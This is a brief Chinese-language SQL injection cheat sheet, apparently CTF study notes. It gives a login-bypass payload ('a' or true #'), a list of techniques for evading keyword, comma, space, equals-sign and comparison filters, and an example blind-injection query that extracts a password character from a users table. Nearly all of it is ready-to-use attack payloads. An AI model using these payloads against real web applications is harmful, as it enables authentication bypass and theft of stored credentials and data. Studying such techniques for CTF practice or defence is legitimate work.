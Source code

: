 在一般的 SQL 网站注入题目中，SQL 查询语句，一般是 SELECT * FROM xxx WHERE 字段=‘ ’ and 字段=‘ ’（此处需要判断语句的开闭情况），此时万能用户/密码的生效原理就是使得这条 SQL 语句恒返回 ture，因此可以将部分筛选条件通过 SQL 注释等方法忽略掉，并植入恒等式或 true

例如：username = a’ or true # && password = 1

其中的 a‘ or true #，就会使该条 SQL 恒返回 true，因为 # 在是一个注释符号，# 之后的筛选条件无效，即 password 无效，而 ’ 号用于将 SQL 闭合



## SQL 绕过技术

**过滤关键字**：

- 内联注释绕过，分割关键字，/**/、<>
- 双写绕过
- 大小写绕过
- 编码绕过，url、16 进制、ascii 编码

**过滤逗号**：

- ```text
  union select * from (select 1)a join (select 2)b join (select 3)
  等价于 union select 1,2,3
  ```


**substr、mid、limit 绕过**：

- substr、mid 利用 from to 来摆脱对逗号的利用 substr(str from pos for len)

- limit 中可以利用 offset 来摆脱对逗号的利用 limit 1 offset 1
- substring(str from pos)

**过滤空格**：

- 双空格 、/**/ 、（）、回车代替（ascii码为chr(13)&chr(10)，url编码为%0d%0a）

**过滤等号**：

- 使用 like 、rlike 、regexp、< 或者 >

**过滤比较符**：

- greatest(n1,n2,n3,...)、strcmp(str1,str2)、in 操作符、between   and

**过滤等价函数**：

- ```text
  hex()、bin() ==> ascii() 
  sleep() ==>benchmark() 
  concat_ws()==>group_concat() 
  mid()、substr() ==> substring() 
  @@user ==> user() 
  @@datadir ==> datadir() 
  举例：substring()和substr()无法使用时：?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74　 
  或者： substr((select 'password'),1,1) = 0x70 
  strcmp(left('password',1), 0x69) = 1 
  strcmp(left('password',1), 0x70) = 0 
  strcmp(left('password',1), 0x71) = -1
  ```
